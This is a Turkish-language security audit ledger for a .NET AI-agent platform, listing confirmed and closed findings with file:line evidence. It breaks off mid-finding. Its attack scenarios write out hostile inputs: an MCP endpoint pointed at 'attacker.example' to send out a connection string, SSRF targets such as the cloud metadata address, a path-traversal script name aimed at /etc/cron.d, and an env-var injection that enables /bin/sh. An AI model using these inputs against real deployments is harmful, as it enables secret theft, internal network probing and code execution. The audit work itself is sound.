

# Tracon — Güvenlik Tarama Bulguları

> **Defter.** 10 konu oturumunun ürettiği bulgular tek yerde, `dosya:satır`
> kanıtıyla. Bir bulgu kapandığında **satır silinmez**; durum sütunu güncellenir
> ve kapatan commit yazılır. Amaç: sonraki oturum taramayı tekrarlamasın.

**Koşum:** 2026-08-20 · taban commit `1cda224` · plan
[`00-INDEKS.md`](00-INDEKS.md) · 10 konu, 10 ayrı agent oturumu, salt-okunur.
**Koşum sonrası doğrulama:** çalışma ağacı temiz kaldı (0 değişen dosya).

---

## Nasıl okunur

| Alan | Anlam |
|---|---|
| **Kimlik** | `B<konu>-<sıra>`; konu numarası `NN-*.md` dosyasıyla eşleşir |
| **CONFIRMED** | Somut girdi/durum → somut sonuç zinciri koddan kurulabiliyor |
| **PLAUSIBLE** | Mantıken risk; doğrulanmadı. **Aksiyon almadan önce CONFIRMED'e çevir** |
| 🔴 | Veri sızıntısı · kiracı ihlali · kod çalıştırma |
| 🟡 | Yetki atlatma · DoS · korumanın etkisiz kalması |
| 🟢 | Sağlamlaştırma · doküman-kod çelişkisi |

Hiçbir bulgu bu oturumda düzeltilmedi. Bulma ve giderme ayrı adımdır
([`00-INDEKS.md`](00-INDEKS.md) kural 6).

---

## Özet

| Konu | 🔴 | 🟡 | 🟢 | Not |
|---|---|---|---|---|
| [01](01-kimlik-dogrulama-ve-yetkilendirme.md) kimlik doğrulama | 1 | 1 (+1 P) | 2 | |
| [02](02-kiraci-izolasyonu.md) kiracı izolasyonu | 1 | 3 (+1 P) | 2 (+3 P) | |
| [03](03-denetim-izi-ve-secret-redaksiyonu.md) denetim izi | – | 3 (+1 P) | 3 | |
| [04](04-script-sandbox.md) script sandbox | – | 4 | 3 | |
| [05](05-dis-ag-erisimi.md) dış ağ | 1 | 2 | 2 (+2 P) | B05-1 yanlış pozitif çıktı |
| [06](06-veri-katmani.md) veri katmanı | – | – | 4 (+2 P) | **SQL enjeksiyonu: sıfır bulgu** |
| [07](07-bagimlilik-tedarik-zinciri.md) bağımlılık | – | – | 2 (+1 P) | **K-008 ihlali yok** |
| [08](08-aot-reflection.md) AOT/reflection | – | – | – | **Temiz** |
| [09](09-frontend-guvenligi.md) frontend | – | – | – | **Temiz** |
| [10](10-loglama-gizlilik.md) loglama | – | 1 | – (+1 P) | 109 `ILogger` noktası temiz |
| **Toplam** | **3** | **14** (+3 P) | **18** (+9 P) | B05-1 düştü; yerine bir işlevsel kusur bulundu |

---

## Üç kusur sınıfı

Bulgular tekil kaza değildir. Onsekiz aksiyon bekleyen bulgunun sekizi **üç
sınıfa** düşer. Kapanış sınıf sınıf yapılır; tek vaka düzeltmek sınıfı kapatmaz.



**Sınıf 1 — cache anahtarında kiracı eksik.** K-380 (`CompiledAgentCache`) ve
K-381 (dosya belleği) bu sınıfı bir kez kapattı. Üç yeni yer aynı hatayı taşır.
`CompiledAgentCache` bugün doğru anahtarlanır (`CacheKey(TenantId, Name, Version,
DependencyFingerprint, Culture)`); sınıf tarama o desene göre yapılır.

**Sınıf 2 — doğrula ama sonuca bakma.** K-359 bu sınıfı bir kez kapattı:
`Authorization` başlığı varsa `AuthToken` tanımsız olsa bile doğrulanmalıdır. Üç
yeni yer, kimlik bilgisi **sunulmadığında** veya **başka türden** sunulduğunda
korumayı atlar.

**Sınıf 3 — denetim yazımı sessizce düşer.** K-089 script çalıştırma için bu
sınıfı kapattı: audit `store` hata verirse çalıştırma **kesilir**. `AuditRecorder`
hatayı yutar; geri alınamaz eylemler onu kullanamaz. Kural
[`arsiv/KARARLAR-GECMISI.md`](../arsiv/KARARLAR-GECMISI.md) satır 1622'de
yazılıdır: geri alınamaz eylem `IAuditLog.WriteAsync`'i **doğrudan** çağırmalıdır.

Kalan on bulgu sınıfsızdır ve tek tek kapatılır.

---

## 🔴 Kritik

### B01-1 · MCP/A2A dış yüzeyinde `external:invoke` kapsamı istek anında zorlanmaz · CONFIRMED · **KAPANDI**

**Yer:** `src/Tracon.AspNetCore/Security/TraconEndpointFilter.cs:95-105`
ve `:288-301` · `src/Tracon.AspNetCore/Security/ExternalSurfaceGuard.cs:122-148`
· `src/Tracon.AspNetCore/McpServer/TraconMcpServerExtensions.cs:87` ·
`src/Tracon.AspNetCore/A2A/TraconA2AExtensions.cs:113`

**Mekanizma.** Üç halka birlikte açığı üretir:

1. Filtre, `Authorization` başlığı **yokken** ve `AuthToken` tanımsızken
   `Proceed` eder (`:96-105`). Koddaki yorum: "Neither a static token nor a
   header: today's behavior does not change (K1)."
2. `CheckScope` (`:288-301`) imzası `ApiKeyRecord record` **ister**. Yalnız API
   anahtarı dalında (`:150`) çağrılır. Anahtar sunulmazsa hiç çalışmaz.
3. `group.RequireApiKeyScope(ApiKeyScope.ExternalInvoke)` yalnız endpoint
   **metadata**'sı yazar. Hiçbir şey sunmayan çağıran kontrolü tamamen atlar.
4. Açılış muhafızı `EnsureRemoteAccessNotCombined` yalnız
   `HasActiveScopeAsync(ExternalInvoke)` sorar — "sistemde böyle bir anahtar
   **var mı**". Anahtarın **kullanıldığını** doğrulamaz.

**Senaryo.** Operatör `AllowRemoteAccess=true` yapar, hata mesajının istediği
gibi bir `external:invoke` anahtarı üretir, `AuthToken` ve `AuthorizationPolicy`
tanımlamaz. Açılış geçer. `POST /tracon/mcp` (veya `/a2a/{agent}`) hiçbir
kimlik bilgisi taşımadan `200` alır. İnternete açık bir agent çağırma yüzeyi
kimlik doğrulamasız kalır.

**Mevcut test bu davranışı sabitlemiş:**
`tests/Tracon.AspNetCore.FunctionalTests/ApiKeyAuthenticationTests.cs:279-303`
token'sız `tools/list` çağrısı için `HttpStatusCode.OK` bekler.
`Infrastructure/TraconTestHost.cs:130` varsayılanı `AuthToken` kurmaz.
Düzeltme bu testi de değiştirir.

**Sevk edilen doküman çelişiyor** — üçü de istek anında zorlanmıyor:
`A2A/TraconA2AExtensions.cs:138` ("A valid API key carrying the
`external:invoke` scope is required") · `ExternalSurfaceGuard.cs:145` ("A single
static bearer token is not enough…") · [`MIMARI-GUVENLIK.md`](../MIMARI-GUVENLIK.md) satır 41.

**Tek telafi:** `AuthorizationPolicy` tanımlıysa `RequireAuthorization(policy)`
devreye girer (`TraconMcpServerExtensions.cs:89-92`). Varsayılan kurulumda yoktur.

**İlgili karar:** K-360.

---

### B02-1 · `WorkflowAgentCache` anahtarında `TenantId` yok — K-380'in birebir tekrarı · CONFIRMED · **KAPANDI**

**Yer:** `src/Tracon.Workflows/Internal/WorkflowAgentCache.cs:110`, kullanım `:83`

```csharp
private readonly record struct AgentKey(string WorkflowName, string AgentName);
```

**Senaryo.** Workflow benzersizliği kiracı içindedir
(`UNIQUE (tenant_id, name)`, `src/Tracon.PostgreSql/Migrations/0007_workflows.sql:34`);
agent adları da yalnız kiracı içinde benzersizdir. Kiracı A `"triage"`
workflow'unu `"support"` agent'ıyla koşar; `WorkflowDefinitionCompiler.Wrap`
(`src/Tracon.Workflows/Internal/WorkflowDefinitionCompiler.cs:313`) A'nın
katalogdan gelen `info.Description`'ını cache'e yazar. Kiracı B aynı adlarla
koşunca `ConcurrentDictionary.GetOrAdd` **A'nın örneğini** döndürür.
`ChildAgentInvoker.Description` (`src/Tracon.Core/Graph/ChildAgentInvoker.cs:71`)
kurucu anında dondurulmuştur. Sınıfın kendi XML dokümanı, description'ın
`GroupChat` ve `Magentic` desenlerinde **modele giden katılımcı listesine**
ulaştığını yazar. Yani A'nın serbest metni B'nin modeline gider.

**Sınır aşılır ama veri okunmaz.** Çalıştırma anı çözümü güvenlidir:
`ChildAgentInvoker.Refuse`, `scope.TenantId != _tenantContext.TenantId` ise
reddeder (`:217`). Sızan yalnız `Description`'dır.

**Test yok.** `grep -rn WorkflowAgentCache tests/` iki kiracılı bir case vermez.

**İlgili karar:** K-380, K-381.

---

### B05-1 · ~~MCP cache anahtarı ayırıcısız~~ → **YANLIŞ POZİTİF.** Gerçek kusur: okuma yolu yazma yolunu bulamıyor · CONFIRMED · KAPANDI

> 🚨 **Bu bulgu ilk hâlinde YANLIŞTI ve düzeltildi (2026-08-20).** Hem konu 05
> denetçisi hem de birleştiren oturum, kaynağı **okuyarak** "ayırıcı yok" sonucuna
> vardı. Ayırıcı **vardır**: görünmez bir `U+001F` kontrol karakteridir. Kaynak
> okuması onu gösteremez; `cat -v` veya çalışma anı probu gösterir.
> Kiracılar arası OAuth token paylaşımı **yoktur**.

**Ölçüm.** Çalışma anı probu, anahtarların hex dökümünü verdi:

```
61-63-6D-65-1F-5F-70-72-6F-64   "acme"  + U+001F + "_prod"
61-63-6D-65-5F-1F-70-72-6F-64   "acme_" + U+001F + "prod"
```

İki anahtar **farklıdır**. Çarpışma kurulamaz.

**Gerçek kusur.** Dört çağrı yerinin üçü ayırıcıyı taşıyordu, biri taşımıyordu:

| Yer | Yol | Ayırıcı |
|---|---|---|
| `src/Tracon.Mcp/Internal/McpOAuthTokenCacheRegistry.cs:23` | token cache | ✅ vardı |
| `src/Tracon.Mcp/Internal/McpToolCatalog.cs:139` | connection **yazma** | ✅ vardı |
| `src/Tracon.Core/Storage/InMemoryApprovalAndMcpStores.cs:190` | in-memory store | ✅ vardı |
| `src/Tracon.Mcp/Internal/McpToolCatalog.cs:102` | connection **okuma** | ❌ **yoktu** |

`TryGetConnection` `"acmeprod"` arıyordu; refresh döngüsü `"acme␟prod"` yazmıştı.
Arama **hiçbir zaman** tutmuyordu. Sonuç: `McpResourceContextProvider.cs:97`
her seferinde `false` alıyor, "MCP server is currently unreachable" uyarısı basıp
kaynağı bağlama eklemeden geçiyordu. Yani **MCP kaynak enjeksiyonu (Mod A) hiç
çalışmıyordu** ve arıza yanlış sebebe atfediliyordu.

`git log -L` ile doğrulandı: bu satır ayırıcıyı **hiç** taşımadı. `TryGetConnection`
için test **yoktu** (`grep -rn "TryGetConnection" tests/` → boş).

**Düzeltme.** Anahtar tipli bir değere dönüştürüldü
(`src/Tracon.Mcp/Internal/McpTenantServerKey.cs`). Okuma ile yazmanın farklı
biçim kullanması artık **derleme zamanında imkânsızdır**; görünmez karakter
tamamen kalktı. `Tracon.Mcp` altında kontrol karakteri taşıyan kaynak kalmadı.

**Sınıf taraması.** Repo genelinde görünmez kontrol karakteri taşıyan kaynak
dosyalar tarandı (`grep -rlP '[\x00-\x08\x0B\x0C\x0E-\x1F]' src/`): yalnız
yukarıdaki üç dosya. Başka gizli ayırıcı yoktur — bu, kalan bulguların kaynak
okumasına dayanan kısmını da sınırlar.

**Ders.** Bir ayırıcı görünmez karakterse, kaynak okuması onu doğrulayamaz.
Anahtar üretimi elle tekrarlanan bir ifade olduğu sürece okuma ve yazma sessizce
ayrışır. Tipli anahtar bunu belgelemek yerine **ortadan kaldırır**.

---

### B05-2 · MCP `AuthorizationConfigurationKey`'de prefix kısıtı yok; `secret` ağdan çıkar · CONFIRMED · **KAPANDI (Faz 77)**

**Yer:** doğrulama `src/Tracon.AspNetCore/Endpoints/GovernanceEndpoints.cs:774-826`
· kullanım `src/Tracon.Mcp/Internal/McpTransportFactory.cs:110`, `:60`, `:64`

Doğrulama yalnız üç şeye bakar: ad boş mu, URI mutlak mı, şema `http`/`https` mi.
Sonra `headers["Authorization"] = configuration[key]` çalışır ve bu başlıklar
`server.Endpoint`'e gider.

**Senaryo.** `AgentsAdmin` kapsamlı bir çağrı `PUT /api/mcp-servers/x` ile
`endpoint = "https://attacker.example/"` ve
`authorizationConfigurationKey = "ConnectionStrings:Default"` yazar. Sonraki
`McpDiscoveryService` turunda Tracon bağlantı isteğini o sunucuya atar ve
bağlantı dizesini `Authorization` başlığında gönderir.

**K-059 ihlal edilmez ama yetmez.** K-059'un vaadi — değer veritabanına, denetim
izine ve API yanıtına girmez — burada geçerlidir. Değer **ağdan çıkar**.

**Karşıt desen aynı repodadır.** İki yerde `AllowedConfigurationPrefix` uygulanır
ve kod bunu "bu bir güvenlik sınırıdır" diye adlandırır:
`src/Tracon.Core/Triggers/InboundTriggerSecretResolver.cs:43-57` ·
`src/Tracon.Core/Tenancy/TenantProviderCredentialResolver.cs:47-62`.
MCP ve webhook bu korumayı almamıştır.

**İlgili karar:** K-058, K-059.

---

## 🟡 Önemli

### B01-2 · Konuşma WebSocket el sıkışması API anahtarını hiç denemez · CONFIRMED · **KAPANDI**

**Yer:** `src/Tracon.AspNetCore/Voice/VoiceConversationEndpoint.cs:161-184`

```csharp
if (options.AuthToken is not { Length: > 0 } expected) return true;
```

`ApiKeyAuthenticator`'ın XML dokümanı (`:4-8`) bu tipin tam olarak "bir WebSocket
el sıkışması" için ortaklaştırıldığını söyler; tek çağıranı
`TraconEndpointFilter`'dır.

**Senaryo.** Kiracı API anahtarı kullanan bir kurulum `AuthToken` tanımlamaz.
Voice grubu `requireBearerToken: false` ile bağlıdır
(`TraconEndpointRouteBuilderExtensions.cs:277`). Tarayıcı el sıkışmaya
`Authorization` başlığı ekleyemediği için filtre başlıksız yolu izler ve geçirir.
Uçtaki `IsTokenValid` de `AuthToken` boş olduğu için **her** alt protokol
değerini kabul eder. `Operator` policy'si kayıtlı değilse (varsayılan,
`RequireRolePolicies=false`) yabancı bir istemci varsayılan kiracının oturumunda
agent çalıştırır.

**Ters yön aynı kusurdan doğar.** `AuthToken` tanımlıyken arayüzden API anahtarı
giren kullanıcının anahtarı statik token ile karşılaştırılır, eşleşmez ve `401`
alır (`src/Tracon.UI/frontend/src/lib/voice.ts:54-57`, `lib/auth.ts:14`).

**Doküman çelişkisi:** [`MIMARI-GUVENLIK.md`](../MIMARI-GUVENLIK.md) satır 54
tablosu "Bearer token · Konuşma WebSocket'i ✅ alt protokolde" der.

**İlgili karar:** K-359, K-224.

---

### B02-2 · ~~Ses WebSocket'inin oturum sahipliği denetimi ölü koddur~~ → **YANLIŞ POZİTİF (K-283)**

**Yer:** `src/Tracon.AspNetCore/Voice/VoiceConversationEndpoint.cs:206`, karar `:208`

> 🚨 **Bu bulgu bir kusur DEĞİLDİR.** Ölü kod **bilinçlidir**: K-283 (Faz 41)
> "Görünmeyen bir oturum YOK sayılır; 'başkasının oturumu' reddi **kaldırıldı**"
> der. Gerekçe bir *existence oracle*'ı kapatmaktır — kiracı, durum koduna bakarak
> başka kiracıda hangi `sessionId`'lerin var olduğunu öğrenemesin. Düzeltme
> denendi, `Another_tenants_session_CANNOT_be_accessed` testi düştü ve geri alındı.
> Koda K-283'e atıfla bir uyarı yorumu eklendi.
>
> **Kalan gerçek iş doküman tarafındaydı** ve yapıldı: `MIMARI-GUVENLIK.md:68`
> "oturumun kiracı sahipliğini doğrular" diyordu. OpenAI uyumlu uçlar 404 döner,
> ses ucu taze oturum açar; **fark bir karardır, gözden kaçma değildir**.

`store.GetAsync(sessionId, ...)` ambient kiracıyla süzer. Kiracı B'ye ait bir
`sessionId` ile kiracı A bağlanınca `record` `null` döner ve
`return record is null || ...` **true** olur — 404 dalı hiç çalışmaz.

**Bu hata zaten yazılıdır.** `src/Tracon.Abstractions/Sessions/ISessionStore.cs:69-77`:
"`GetAsync` is filtered by the ambient tenant … This is exactly why the
OpenAI-compatible endpoints' cross-tenant ownership check was dead code."
Düzeltme `OpenAICompatSupport.cs:117`'de yapılmış, ses ucuna taşınmamıştır.

**Etki.** `sessions` birincil anahtarı `(tenant_id, id)` olduğu için (K-278)
doğrudan veri okunmaz; A kendi kiracısında boş bir oturum açar. Kaybolan şey
**korumanın kendisidir**: uç artık "başka kiracının oturumu" durumunu ayırt
edemez ve [`MIMARI-GUVENLIK.md`](../MIMARI-GUVENLIK.md) satır 68'in "oturumun
kiracı sahipliğini doğrular" iddiası karşılanmaz.

---

### B02-3 · `ModelProviderCircuitBreaker` yalnız `providerName` ile anahtarlanır · CONFIRMED · **KAPANDI**

**Yer:** `src/Tracon.Core/Models/ModelProviderCircuitBreaker.cs:88`, `:150` ·
sarmalama `src/Tracon.Core/Models/ModelProviderRegistry.cs:333`

Varsayılan `Enabled = true`, `FailureThreshold = 5`
(`src/Tracon.Core/TraconOptions.cs:315`, `:320`).

**Senaryo.** Kiracı A, `tenant_provider_bindings`'e geçersiz veya iptal edilmiş
bir anahtar adı yazar (Faz 65). A'nın 5 ardışık başarısız `run`'ı
`_states["openai"]`'i `Open`'a çeker. `BreakDuration` boyunca kiracı B'nin her
`run`'ı `TraconProviderUnavailableException` alır. Kiracı boyutu anahtarda
yoktur; BYOK yolu da aynı `BuildPipeline`'dan geçer.

**Aynı sınıf, daha düşük etki:**
`src/Tracon.Core/Models/ProviderConcurrencyLimiter.cs:72` semaphore'u da
sağlayıcı adıyla paylaşılır — ama `MaxConcurrentCallsPerProvider` varsayılanı
`null`'dır (kapalı).

---

### B02-4 · `GET /api/tenants` kurulumdaki her kiracıyı `Reader` rolüne döndürür · CONFIRMED · **KAPANDI**

**Yer:** `src/Tracon.AspNetCore/Endpoints/GovernanceEndpoints.cs:114-119` ·
muafiyet metni `src/Tracon.Sql.Shared/Stores/SqlApprovalAndMcpStores.cs:380-382`

Uç `.RequireRole(roles.Reader)` + `RequireApiKeyScope(ApiKeyScope.PlatformRead)`
taşır. `SqlTenantStore.ListAsync` kiracı süzgeci taşımaz ve tüm kurulumun `slug`
+ `displayName` listesini döner.

**Doküman-kod çelişkisi aynı satırdadır.** `[TenantAgnostic]` gerekçesi kelimesi
kelimesine "exists for the management surface (**Admin policy**)" der. Kod
`roles.Admin` değil `roles.Reader` ister. `PUT` ve `DELETE` doğru şekilde `Admin`
ister; yalnız listeleme düşmüştür.

**Sonuç.** SaaS kurulumda müşteri listesi en düşük rolde sızar.

---

### B03-1 · `AuditSecretFilter` ayraçlı varyantları kaçırır · CONFIRMED · **KAPANDI**

**Yer:** `src/Tracon.Core/Audit/AuditSecretFilter.cs:24-31` (liste:
`apikey`, `authorization`, `token`, `password`, `secret`) ve `:110-134`
(`IsSecretKey`, `Contains` ile alt dize eşleşmesi)

Eşleşme alt dize üzerindendir. `apiKey` yakalanır; `x-api-key`, `xi-api-key` ve
`api_key` **yakalanmaz** — ayraç `apikey` dizisini böler.

**Zincir.** Admin `PUT /api/mcp-servers/{name}` gövdesinde
`{"headers":{"X-Api-Key":"sk-live-..."}}` gönderir → `GovernanceEndpoints.cs:247`
başlıkları doğrulamadan kopyalar (`Validate`, `:774-814`, başlık adını ve
değerini denetlemez) → `AuditingMcpServerStore.cs:107-108` tüm
`McpServerDefinition`'ı serialize eder → filtre `X-Api-Key`'i secret saymaz →
düz metin anahtar `audit_log.after`'a yazılır ve `GET /api/audit`
(`AuditEndpoints.cs:20`) ile döner.

**Bu adlar kod tabanında gerçektir:**
`src/Tracon.Anthropic/AnthropicProviderHealthCheck.cs:57` (`x-api-key`) ·
`tests/Tracon.Voice.UnitTests/SecretLeakTests.cs:124` (`xi-api-key`).

**İkinci yol.** `AgentDefinition.Metadata`
(`src/Tracon.Abstractions/Agents/AgentDefinition.cs:123-125`, "free-form") ve
skill script argümanları (`SandboxedSkillScriptRunner.cs:299-304`, şemayı skill
yazarı tanımlar; snake_case `api_key` yaygındır) serbest anahtar taşır ve aynı
filtreden geçer.

**Not.** `McpServerDefinition.cs:77-82` "Must not carry a secret — these values
are stored as-is" der. Bu bir **doküman** kuralıdır, kodda zorlanmaz.

**İlgili karar:** K-059, K-081.

---

### B03-2 · Kaçışsız interpolation, PostgreSQL'de denetim kaydını sessizce düşürür · CONFIRMED · **KAPANDI**

**Yer:** `src/Tracon.AspNetCore/Endpoints/TenantProviderEndpoints.cs:263`

**Zincir.** Gövde `{"allowedProviders":["open\"ai"]}`. `allowedProviders` hiç
doğrulanmaz (`:404-408`; `:251-253` doğrudan `UpsertAsync`'e gider).

1. Politika `:253`'te yazılır — **mutasyon tamamlanır**.
2. `:263` `{"allowedProviders":["open"ai"]}` üretir — geçersiz JSON.
3. `AuditSecretFilter.Redact` `JsonException` yakalar ve metni **değiştirmeden
   döner** (`AuditSecretFilter.cs:49-54`) — redaksiyon da atlanır.
4. `after` sütunu PostgreSQL'de `jsonb`'dir
   (`src/Tracon.PostgreSql/Migrations/0001_initial.sql:234-235`), parametre
   `text` gider (`PostgresQueries.cs:1355-1358`), atama cast'i `22P02` verir.
5. `AuditRecorder.WriteAsync` hatayı yutar, yalnız `LogWarning` yazar
   (`AuditRecorder.cs:53-60`).

**Sonuç.** Kiracının egress politikası değişir; denetim izinde hiçbir kayıt
yoktur. `GET /api/audit/verify` bunu göremez: `AuditChainWalker` yalnız komşu
satırların `prev_hash`/`hash` bağını kontrol eder (`AuditChainWalker.cs:80-98`);
hiç yazılmamış bir satır zincirde boşluk bırakmaz.

**Mekanizma varsayım değil, yaşanmıştır:** `SandboxedSkillScriptRunner.cs:445-448`
aynı `22P02` hatasını kayıt altına alır ("HATA-K-skill-audit-json").

**Davranış sağlayıcıya göre değişir.** SQLite (`0001_initial.sql:253-254`,
`TEXT`) ve SQL Server (`:337-338`, `nvarchar(max)`) sütunları düz metindir; orada
kayıt yazılır ama saldırganın seçtiği JSON alanlarını taşır.

---

### B03-3 · API anahtarıyla doğrulanmış her istek denetim izine `Actor = null` yazar · CONFIRMED · **KAPANDI**

**Yer:** `src/Tracon.Core/Audit/AmbientAuditActorResolver.cs:30-34` ·
`src/Tracon.AspNetCore/Security/TraconEndpointFilter.cs:157`, `:177`

`ApiKeyAuthenticator` kaydı doğrular ve `ApiKeyRequestContext`'e koyar, ama
`httpContext.User`'a hiçbir yerde atama yapılmaz — kod tabanında
`httpContext.User =` ataması yoktur. `Resolve()` kimliksiz principal görür ve
`null` döner. `record.Id` ve `record.Name` elde mevcuttur.

**Bu ertelenmiş bir iştir, reddedilmiş bir karar değildir:**
[`arsiv/fazlar/53-KIRACI-API-ANAHTARLARI.md`](../arsiv/fazlar/53-KIRACI-API-ANAHTARLARI.md)
satır 578, `ApiKeyRequestContext.Get`'in tüketicisi olarak "denetim izi
zenginleştirmesi"ni açıkça adlandırır.

**İlgili karar:** K-076.

---

### B04-1 · Saklanan script adı yol karakteri için doğrulanmaz · CONFIRMED · **KAPANDI**

**Yer:** yazım `src/Tracon.Core/Skills/Scripts/SandboxedSkillScriptRunner.cs:318-319`
· doğrulama boşluğu `src/Tracon.AspNetCore/Endpoints/SkillEndpoints.cs:213-219`

**Senaryo.** Admin (`AgentsAdmin` kapsamı) `PUT /api/skills/{name}` ile
`scripts:[{ name: "/etc/cron.d/tracon", extension: "py", content: "..." }]`
kaydeder. `ValidateScripts` yalnız "boş değil + benzersiz" bakar; `Extension`
allow-list'ten geçer ama `Name` serbesttir. Skill'e ait geniş bir izin
(`ScriptName = null`, `SkillScriptGrantEndpoints.cs:115`) zaten varsa çalıştırma
ikinci kapıdan geçer. `ExecuteAsync`
`Path.Combine(scratch.FullName, "/etc/cron.d/tracon.py")` üretir; .NET'te
ikinci parça mutlak yol olduğunda `Path.Combine` doğrudan onu döndürür, `../../..`
biçimi de normalize edilmediği için işletim sisteminde çözülür.
`File.WriteAllTextAsync` içeriği oraya yazar, süreç orayı çalıştırır ve
`TryDelete(scratch)` (`:355`, `:487-502`) yalnız geçici dizini siler — **dosya
diskte kalır**.

**Ön koşul:** hedef dizin vardır ve süreç oraya yazabilir.

**Kodun kendi iddiasını çürütür.** `SandboxedSkillScriptRunner.cs:158-163`:
"content is written to a temporary directory accessible only to its owner, only
for the duration of the run, and deleted afterward." Traversal'da üçü de
geçersizdir.

**İlgili karar:** K-087 (kök arayüzden eklenemez — burada kök yerine **hedef
yol** arayüzden gelir).

---

### B04-2 · `Interpreters`, `SkillRoots` ve `AllowStoredScripts` konfigürasyondan genişletilebilir · CONFIRMED · **KAPANDI**

**Yer:** `src/Tracon.Core/TraconServiceCollectionExtensions.cs:1327-1330`
(`AllowStoredScripts`), `:1371` (`SkillRoots`), `:1375-1381` (`Interpreters`) ·
birleşme sırası `src/Tracon.Core/TraconBuilder.cs:23`

**Senaryo.** Kod `UseSkillScripts(o => { o.PlatformIsolationAcknowledged = true;
o.Interpreters["py"] = "python3"; })` çağırır. Ortam değişkenleri
`Tracon__Skills__Scripts__Interpreters__sh=/bin/sh` ve
`Tracon__Skills__Scripts__AllowStoredScripts=true` eklenir. Binding
`Configure`'ı önce, `UseSkillScripts`'in `Configure`'ı sonra koşar; ikisi de aynı
sözlüğe **ekler** ve kod hiçbir zaman temizlemez. Sonuç: kodun hiç tanımadığı
`sh` yorumlayıcısı allow-list'e girer ve kodun bilinçli kapalı bıraktığı
stored-script yolu açılır. `SkillRoots` aynı yolla eklenebilir — K-087 bunu
"keyfî dosya sistemi okuması" diye reddetmişti.

**Doküman çelişkisi, üç yerde:** [`MIMARI-GUVENLIK.md`](../MIMARI-GUVENLIK.md)
satır 215-217 · [`README.md`](../../README.md) satır 268-269 ·
[`arsiv/fazlar/11-SKILL-SCRIPT-CALISTIRMA.md`](../arsiv/fazlar/11-SKILL-SCRIPT-CALISTIRMA.md)
satır 284-285 — üçü de "yalnız kodda açılır" der.

**Kapsam notu.** `Enabled` ve `PlatformIsolationAcknowledged` binding'i
`:1303-1309`'da bilinçli olarak gerekçelendirilmiştir. Bu bulgu onları değil,
gerekçelendirilmemiş üç alanı hedefler.

**İlgili karar:** K-087, K-088.

---

### B04-3 · Tek "bir daha sorma" onayı `run_skill_script` için argümandan bağımsız kalıcı kural yazar · CONFIRMED · **KAPANDI**

**Yer:** `src/Tracon.AspNetCore/Internal/ToolApprovalResolver.cs:100-103`,
`:160-176` · etki
`src/Tracon.Core/Approvals/ToolApprovalRuleEvaluator.cs:165-166`

**Ayrıcalık yükseltme.** Kuralı doğrudan yazan uç `Admin` + `SecurityAdmin`
ister (`GovernanceEndpoints.cs:629-631`). Aynı kuralı dolaylı yazan yol
`Operator` + `RunsWrite` ile yetinir (`AgentEndpoints.cs:253-254`).

**Senaryo.** Operator, `POST /api/agents/{name}/run` gövdesinde
`approvals:[{ requestId, approved:true, remember:true }]` gönderir.
`RememberAsync`, `ToolName = "run_skill_script"` ve `ArgumentsHash = null` bir
kural yazar (`RememberArgumentsOnly` false olduğu için). `IsAutoApprovedAsync`,
argüman koşulu ve hash olmayan kuralda `:166`'da `return true` yapar. Bundan
sonra o agent'ın **her** script çağrısı, farklı bir skill veya script adı olsa
bile, kullanıcıya sorulmadan onaylanır.

**Doküman çelişkisi:** `SandboxedSkillScriptRunner.cs:38-41` "MAF's approval flow
stays active … every script call waits for user approval first" der.

**MAF tarafı doğrudur.** `DisableRunSkillScriptApproval` hiçbir yerde set
edilmez; boşluk Tracon'in kural katmanındadır.

---

### B04-4 · `script.grant` denetim kaydı yutulabilir · CONFIRMED · **KAPANDI**

**Yer:** `src/Tracon.Core/Audit/AuditingSkillScriptGrantStore.cs:69-78` →
`src/Tracon.Core/Audit/AuditRecorder.cs:53-60`

**Senaryo.** `audit_log` yazımı hata verir (B03-2'nin `22P02` sınıfı, bağlantı
kopması vb.). `_inner.GrantAsync` `:67`'de **zaten** kalıcılaşmıştır; audit
yazımı düşer, çağrı `saved` döndürür ve uç `201 Created` verir. Sunucuda kod
çalıştırma yetkisi veren bir kayıt vardır, kimin verdiğine dair iz yoktur.

**Doküman çelişkisi aynı dosyadadır.** `:7-11`: "Granting permission to run a
script grants permission to run code on the server. The `script.grant` and
`script.revoke` actions **therefore always** enter the audit trail."

**Kural zaten yazılıdır.** [`arsiv/KARARLAR-GECMISI.md`](../arsiv/KARARLAR-GECMISI.md)
satır 1622: geri alınamaz eylemler `IAuditLog.WriteAsync`'i **doğrudan**
çağırmalı, `AuditRecorder` kullanmamalıdır.
`SandboxedSkillScriptRunner.WriteAuditOrThrowAsync` (`:455-485`) doğru deseni
uygular; grant store uygulamaz.

**İlgili karar:** K-089 sınıfı.

---

### B05-3 · MCP sunucu adresi hiçbir SSRF denetiminden geçmez · CONFIRMED · **KAPANDI (Faz 77)**

**Yer:** `src/Tracon.AspNetCore/Endpoints/GovernanceEndpoints.cs:784-803` ·
`src/Tracon.Mcp/Internal/McpTransportFactory.cs:19-23`

`endpoint = "http://169.254.169.254/"` veya `"http://10.0.0.5:8080/"` kabul
edilir. `McpClient.CreateAsync` iç ağa TCP bağlantısı açar. Yanıt MCP protokolüne
uymadığı için okuma sınırlıdır, ama bağlantı ve zaman aşımı farkı bir port
tarayıcı ve iç ağdaki MCP sunucularına erişim aracı olur. `AllowPrivateNetworkTargets`
gibi bir anahtar bu yolda **yoktur**; `https` zorunluluğu da yoktur.

**Neden miras alınmıyor.** K-164 korumayı `WebhookHttpClient`'ın **içine**
